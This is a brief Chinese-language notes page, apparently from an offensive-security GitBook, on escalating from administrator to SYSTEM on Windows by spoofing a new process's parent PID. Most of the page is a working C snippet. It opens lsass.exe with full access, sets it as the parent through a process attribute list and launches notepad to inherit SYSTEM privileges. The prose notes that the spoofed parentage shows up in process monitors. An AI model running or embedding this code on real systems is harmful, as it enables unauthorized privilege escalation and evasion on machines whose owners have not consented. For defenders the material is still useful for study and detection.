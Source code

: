```yaml
---
description: PPID-Priv
---
```


# 通过伪装PPID提权到SYSTEM

## 简介

在指定父进程句柄的时候,子进程同时也会继承父进程的权限，这样的话我们也可以通过伪装PPID的方式进行提权，但是这样的技术会有一个较大的缺陷，如果使用process explorer等进程监控软件查看的话会显示在系统权限的进程下派生出了一个子进程，这样会有较大的特征,更容易会被发现，当然也可以通过其他技术手段进行为伪装。

ps:需要管理员权限

## 代码实现

```text
        STARTUPINFOEX sie = { sizeof(sie) };
        PROCESS_INFORMATION pi;
        SIZE_T cbAttributeListSize = 0;
        PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
        HANDLE hParentProcess = NULL;
        DWORD dwPid = 0;

        dwPid = FindProcessPID(L"lsass.exe");

            InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
            pAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
            InitializeProcThreadAttributeList(pAttributeList, 1, 0, &cbAttributeListSize);
            hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
            UpdateProcThreadAttribute(pAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);

            sie.lpAttributeList = pAttributeList;
            CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&sie.StartupInfo, &pi);

            DeleteProcThreadAttributeList(pAttributeList);
            CloseHandle(hParentProcess);
```

![](../.gitbook/assets/image%20%2845%29.png)

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



